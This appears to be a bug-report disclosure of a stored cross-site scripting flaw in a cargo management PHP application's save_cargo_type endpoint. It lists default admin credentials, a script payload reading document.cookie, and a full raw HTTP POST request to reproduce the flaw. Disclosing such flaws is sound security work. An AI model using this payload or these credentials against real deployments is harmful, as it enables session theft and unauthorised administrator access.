 BUG_Author: zihaokevinliu

Vulnerability url: /acms/classes/Master.php?f=save_cargo_type

POST form-data parameter name exists stored cross-site scripting

### Steps to reproduce

1.Go to the admin Login

http://localhost/acms/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on Cargo Types and Click on +Create New

3.Put Payload into the 'Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/kev6798/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /acms/classes/Master.php?f=save_cargo_type HTTP/1.1
Host: localhost
Content-Length: 754
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCoLhgpe9jLppAEd
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/acms/admin/?page=cargo_types
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=sveoba7fn4a5emtg5365vkr68o
Connection: close

------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="id"


------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="city_price"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="state_price"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="country_price"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundarytCoLhgpe9jLppAEd--
```

5.Payload will trigger when a user visits on http://localhost/acms/admin/?page=cargo_types

![image](https://github.com/kev6798/bug_report/blob/main/xss2.png)
